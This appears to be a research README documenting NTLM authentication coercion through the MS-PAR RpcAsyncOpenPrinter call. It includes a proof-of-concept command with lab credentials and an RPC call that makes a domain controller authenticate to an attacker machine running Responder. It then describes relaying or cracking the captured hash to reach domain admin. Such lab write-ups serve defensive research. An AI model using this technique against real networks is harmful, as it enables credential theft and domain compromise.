 # MS-PAR - Remote call to RpcAsyncOpenPrinter (opnum 0)

## Summary

 - **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

 - **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

 - **Protocol version**: 1.0

 - **Function name**: [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `76f03f96-cdfd-44fc-a22c-64950a001209`, version `1.0`) in order to perform calls to RPC functions of the `MS-PAR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. It will then call the remote [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncOpenPrinter('\\192.168.2.51\test\\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcAsyncOpenPrinter(
    [in] handle_t hRemoteBinding,
    [in, string, unique] wchar_t* pPrinterName,
    [out] PRINTER_HANDLE* pHandle,
    [in, string, unique] wchar_t* pDatatype,
    [in] DEVMODE_CONTAINER* pDevModeContainer,
    [in] DWORD AccessRequired,
    [in] SPLCLIENT_CONTAINER* pClientInfo
);
```

 - **hRemoteBinding**: An RPC explicit binding handle.

## References

 - Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0


 - Documentation of function `RpcAsyncOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a